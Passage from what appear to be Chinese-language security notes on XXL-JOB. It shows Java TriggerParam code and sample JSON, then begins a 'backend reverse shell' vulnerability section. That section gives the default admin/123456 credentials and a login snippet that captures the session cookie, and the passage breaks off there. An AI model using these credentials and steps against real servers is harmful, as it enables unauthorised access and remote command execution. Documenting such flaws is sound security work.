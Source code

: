     public int getBroadcastTotal() {
        return broadcastTotal;
    }

    public void setBroadcastTotal(int broadcastTotal) {
        this.broadcastTotal = broadcastTotal;
    }


    @Override
    public String toString() {
        return "TriggerParam{" +
                "jobId=" + jobId +
                ", executorHandler='" + executorHandler + '\'' +
                ", executorParams='" + executorParams + '\'' +
                ", executorBlockStrategy='" + executorBlockStrategy + '\'' +
                ", executorTimeout=" + executorTimeout +
                ", logId=" + logId +
                ", logDateTime=" + logDateTime +
                ", glueType='" + glueType + '\'' +
                ", glueSource='" + glueSource + '\'' +
                ", glueUpdatetime=" + glueUpdatetime +
                ", broadcastIndex=" + broadcastIndex +
                ", broadcastTotal=" + broadcastTotal +
                '}';
    }

}

```
#### TriggerParam

```
{
  "jobId": 1,
  "executorHandler": "executorHandler",
  "executorParams": "executorParams",
  "executorBlockStrategy": "executorBlockStrategy",
  "executorTimeout": 1,
  "logId": 1,
  "logDateTime": 1,
  "glueType": "glueType",
  "glueSource": "glueSource",
  "glueUpdatetime": 1,
  "broadcastIndex": 1,
  "broadcastTotal": 1
}
```

![](./executorHandler.png)

## 历史漏洞 XXL-JOB-admin 后台反弹shell

`(需要后台账号密码，默认账号密码admin/123456)`

`/xxl-job-admin/src/test/java/com/xxl/job/admin/controller/JobInfoControllerTest.java`

```
  @Before
  public void login() throws Exception {
    MvcResult ret = mockMvc.perform(
        post("/login")
            .contentType(MediaType.APPLICATION_FORM_URLENCODED)
            .param("userName", "admin")
            .param("password", "123456")
    ).andReturn();
    cookie = ret.getResponse().getCookie(LoginService.LOGIN_IDENTITY_KEY);